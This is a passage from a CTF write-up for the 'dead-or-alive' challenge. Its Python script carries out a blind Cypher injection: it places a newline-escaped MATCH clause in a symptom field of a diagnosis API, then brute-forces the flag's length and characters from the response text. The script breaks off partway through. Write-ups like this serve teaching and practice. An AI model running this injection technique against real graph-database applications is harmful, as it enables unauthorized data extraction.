 
![](https://hackmd.io/_uploads/rJ7I2rD22.png)

Result: return False

![](https://hackmd.io/_uploads/HkeuYBwhh.png)

Check if the flag starts with the string ctfzone or not.

![](https://hackmd.io/_uploads/r1YLpBD2h.png)

Result return True.

![](https://hackmd.io/_uploads/S13P6BPhh.png)

=> I will use the string `Diabetes is a chronic condition` as a sign to check the response.

### Script
```python
import requests
import random
import string
from tqdm import tqdm

from bs4 import BeautifulSoup

url = "http://dead-or-alive.ctfz.one"
        

with requests.Session() as session:
    characters = string.ascii_letters + string.digits + string.punctuation
    
    flag = "ctfzone{"
    length = 0
    
    # check length flag
    print("Checking length flag...")
    for i in range(10,60):
        payload = f"Fatigue']\u000aMATCH (n:Flag) WHERE size(toString(n.flag)) = {i} //"
        ssn = ''.join(random.choices(string.ascii_letters + string.digits, k=3))
        session.post(url + '/api/setUser', json={"ssn":ssn,"fullname":"abc90","dateOfBirth":"1/1/1999","weight":"100"} )
        session.post(url + '/api/setSymptoms', json= {"ssn":ssn,"symptoms":[ "Blurred vision", "Slow-healing sores or cuts", "Increased thirst",
"Frequent urination", payload ]} )
        r = session.post(url + '/api/getDiagnosis', json={"ssn":ssn} )
        
        if "Diabetes is a chronic condition" in r.text:
            length = i
            print("Done! The length of the flag is: ", length)
            break
    
    # brute force
    for i in range(0, length):
        print("Current flag: ", flag)
        for i in characters:
            payload = "']\u000aMATCH (n:Flag) WHERE n.flag STARTS WITH '####'//".replace("####", flag + i)
            ssn = ''.join(random.choices(string.ascii_letters + string.digits, k=3))
            session.post(url + '/api/setUser', json={"ssn":ssn,"fullname":"abc90","dateOfBirth":"1/1/1999","weight":"100"} )
            session.post(url + '/api/setSymptoms', json= {"ssn":ssn,"symptoms":[ "Blurred vision", "Slow-healing sores or cuts", "Increased thirst",
"Frequent urination","Fatigue" + payload ]} )
            r = session.post(url + '/api/getDiagnosis', json={"ssn":ssn} )
```